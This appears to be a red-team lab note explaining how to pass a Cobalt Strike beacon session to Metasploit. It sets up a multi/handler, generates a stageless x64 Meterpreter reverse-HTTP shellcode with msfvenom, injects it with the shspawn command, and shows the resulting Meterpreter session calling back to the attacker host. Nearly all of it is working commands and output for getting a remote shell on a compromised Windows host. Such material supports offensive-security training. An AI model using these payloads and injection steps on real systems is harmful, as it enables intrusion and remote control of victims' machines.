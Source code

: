 Cobalt Strike has two further generic injection commands that can be utilised for the purpose of session passing: `shinject` and `shspawn`.  Both allow you to inject an arbitrary shellcode blob - shinject can inject into an existing process, and shspawn will spawn a new process.

First, change the multi handler to use a stageless x64 Meterpreter payload.

```shell
#Attacker Linux machine
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.50:8080
```

Next, generate the associated payload using `msfvenom` inside WSL, and save the output to your `Payloads` directory.

```bash
#msfvenom payload took forever to generate in wsl
ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201820 bytes
Saved as: /mnt/c/Payloads/msf_http_x64.bin
```


Finally, use shspawn to spawn a process and inject it.

```bash
#successfully worked - was spawned in WS2 as bfarmer.

beacon> shspawn x64 C:\Payloads\msf_http_x64.bin

[*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: 64tqy4zf) Redirecting stageless connection from /jeqN5SIPwEzAGcEbowwz7Q-hb8QsIP with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36'
[*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: 64tqy4zf) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.50:8080 -> 127.0.0.1) at 2022-09-05 13:04:53 +0000